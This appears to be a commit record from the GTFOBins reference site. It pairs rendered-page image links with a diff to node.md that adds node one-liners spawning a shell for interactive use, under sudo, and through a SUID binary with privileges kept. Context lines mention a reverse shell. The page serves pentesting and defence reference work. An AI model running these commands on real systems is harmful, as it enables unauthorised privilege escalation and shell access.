

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/node.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (208-1066 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add node suid, sudo, and interactive

```diff
--- a/_gtfobins/node.md
+++ b/_gtfobins/node.md
@@ -1,5 +1,14 @@
 ---
 functions:
+  exec-interactive:
+    - code: |
+        node -e 'require("child_process").spawn("/bin/sh", [], { stdio: [0, 1, 2]});'
+  sudo-enabled:
+    - code: |
+        sudo node -e 'require("child_process").spawn("/bin/sh", [], { stdio: [0, 1, 2]});'
+  suid-enabled:
+    - code: |
+        ./node -e 'require("child_process").spawn("/bin/sh", [ "-p" ], { stdio: [0, 1, 2]});'
   reverse-shell:
     - description: Run `nc -l -p 12345` to receive the shell on the other end.
       code: |
```
